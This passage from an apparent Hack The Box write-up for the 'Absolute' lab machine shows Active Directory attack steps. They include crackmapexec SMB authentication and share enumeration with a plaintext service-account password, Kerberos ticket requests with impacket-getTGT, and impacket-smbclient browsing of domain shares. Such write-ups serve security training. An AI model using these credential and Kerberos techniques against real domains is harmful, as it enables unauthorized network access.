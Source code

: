 ```bash
LDAP        10.129.229.59   389    DC               winrm_user                     Used to perform simple network tasks

faketime '2023-11-20 19:16:00' crackmapexec smb $IP -u svc_smb -p 'AbsoluteSMBService123!' -k
SMB         10.129.229.59   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.59   445    DC               [+] absolute.htb\svc_smb:AbsoluteSMBService123!

faketime '2023-11-20 22:28:00' crackmapexec smb $IP -u svc_smb -p 'AbsoluteSMBService123!' -k --shares
SMB         10.129.229.59   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.59   445    DC               [+] absolute.htb\svc_smb:AbsoluteSMBService123! 
SMB         10.129.229.59   445    DC               [+] Enumerated shares
SMB         10.129.229.59   445    DC               Share           Permissions     Remark
SMB         10.129.229.59   445    DC               -----           -----------     ------
SMB         10.129.229.59   445    DC               ADMIN$                          Remote Admin
SMB         10.129.229.59   445    DC               C$                              Default share
SMB         10.129.229.59   445    DC               IPC$            READ            Remote IPC
SMB         10.129.229.59   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.229.59   445    DC               Shared          READ            
SMB         10.129.229.59   445    DC               SYSVOL          READ            Logon server share
```

# Auth as m.lovegod
### Enum
##### Bloodhound
Mark `svc_smb` owned, Unfortunately, the permissions are the same as d.klay.

##### Method 1, Impacket-Smbclient via TGT instead of kinit
Again, it's better since it doesn't need to config the `/etc/krb5.conf`

```bash
faketime '2023-11-20 20:13:00' impacket-getTGT absolute.htb/svc_smb:AbsoluteSMBService123! -dc-ip dc.absolute.htb
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Saving ticket in svc_smb.ccache
export KRB5CCNAME=svc_smb.ccache

faketime '2023-11-20 20:13:00' impacket-smbclient 'absolute.htb/svc_smb:AbsoluteSMBService123!@dc.absolute.htb' -k
faketime '2023-11-20 19:44:00' impacket-smbclient 'absolute.htb/svc_smb:AbsoluteSMBService123!@dc.absolute.htb' -k -no-pass

# use Shared
# ls
drw-rw-rw-          0  Fri Sep  2 05:02:23 2022 .
drw-rw-rw-          0  Fri Sep  2 05:02:23 2022 ..
-rw-rw-rw-         72  Fri Sep  2 05:02:23 2022 compiler.sh
-rw-rw-rw-      67584  Fri Sep  2 05:02:23 2022 test.exe
# shares
ADMIN$
C$
IPC$
NETLOGON
Shared
SYSVOL

```